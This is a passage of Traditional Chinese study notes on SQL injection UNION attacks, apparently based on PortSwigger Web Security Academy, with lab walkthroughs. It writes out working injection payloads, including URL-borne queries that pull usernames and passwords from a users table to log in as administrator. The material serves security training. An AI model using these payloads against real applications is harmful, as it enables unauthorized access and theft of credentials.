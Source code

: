 ```SQL
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```

如果欄位資料類型與字串資料不相容，注入的查詢語句會導致資料庫錯誤，例如：`Conversion failed when converting the varchar value 'a' to data type int.`

如果沒有發生錯誤，且應用程式的回應包含一些額外內容，包括注入的字串值，那麼相關欄位就適合擷取字串資料。

::: tip **Lab: [SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)**
1. 題目敘述說明 `category` 的篩選地方存在 SQLi 漏洞，使其回傳此 Lab 提供的隨機字串即可通關
2. 根據上一個 Lab 得知總共有 3 個欄位，再次確認欄位數量：`/filter?category=Lifestyle' UNION SELECT NULL,NULL,NULL--`
3. 嘗試判斷哪個欄位是字串型態：
   ```SQL
   /filter?category=Lifestyle' UNION SELECT 'a',NULL,NULL--
   /filter?category=Lifestyle' UNION SELECT NULL,'a',NULL--
   /filter?category=Lifestyle' UNION SELECT NULL,NULL,'a'--
   ```
4. 經過測試確認第二個欄位為字串型態
5. 將隨機字串帶入後通關：`/filter?category=Lifestyle' UNION SELECT NULL,'your-random-string',NULL--`
:::

#### 使用 SQL 注入 UNION 攻擊來擷取有趣的資料

當您確定了原始查詢語句返回的欄位數量，並找到哪些欄位可以容納字串資料時，您就可以擷取有趣的資料了。

假設：

* 原始查詢語句返回兩個欄位，兩者都可以容納字串資料。
* 注入點是 `WHERE` 子句中的引號字串。
* 資料庫包含一個名為 `users` 的資料表，其欄位為 `username` 和 `password`。

在此範例中，您可以透過提交以下輸入來擷取 `users` 資料表的內容：
`' UNION SELECT username, password FROM users--`

要執行此攻擊，您需要知道有一個名為 `users` 的資料表，其中有兩個名為 `username` 和 `password` 的欄位。如果沒有這些資訊，您就必須猜測資料表和欄位的名稱。所有現代資料庫都提供檢查資料庫結構的方式，並確定它們包含哪些資料表和欄位。

::: tip **Lab: [SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)**
1. 題目敘述說明 `category` 的篩選地方存在 SQLi 漏洞，已知 `users` 的資料表中有兩個欄位 `username` 和 `password`，取得 `administrator` 的密碼並登入即可通關
2. 取得 `users` 資料表中的所有帳號密碼：`/filter?category=Lifestyle' UNION SELECT username,password FROM users--`
3. 使用 `administrator` 使用者的帳號密碼登入後通關
:::

#### 在單一欄位中擷取多個值

在某些情況下，前面範例中的查詢語句可能只返回單一欄位。

您可以透過將值串接在一起，在這個單一欄位中一起擷取多個值。您可以包含分隔符號來讓您區分組合的值。例如，在 Oracle 上您可以提交以下輸入：`' UNION SELECT username || '~' || password FROM users--`

